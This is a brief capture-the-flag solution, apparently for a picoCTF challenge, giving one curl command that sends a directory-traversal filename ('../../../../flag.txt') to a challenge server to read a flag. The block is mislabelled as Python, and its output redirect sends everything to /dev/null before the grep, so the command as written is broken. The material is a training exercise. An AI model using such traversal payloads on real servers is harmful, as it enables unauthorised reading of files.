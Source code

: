 ### Directory Traversal

---

```py
#!/bin/bash
curl -X POST "http://saturn.picoctf.net:52472/read.php" -d filename=../../../../flag.txt >/dev/null 2>&1 | grep -ho "picoCTF{.*}"
```
